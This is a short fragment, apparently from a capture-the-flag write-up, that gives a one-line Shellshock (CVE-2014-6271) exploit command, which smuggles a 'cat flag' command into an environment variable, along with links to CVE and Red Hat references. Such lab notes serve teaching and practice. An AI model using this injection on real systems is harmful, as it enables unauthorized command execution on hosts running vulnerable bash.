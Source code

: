 - export val='() { :;}; cat flag';./shellshock
- [CVE-2014-6271](https://www.cvedetails.com/cve/CVE-2014-6271/)
- [More details](https://access.redhat.com/articles/1200223)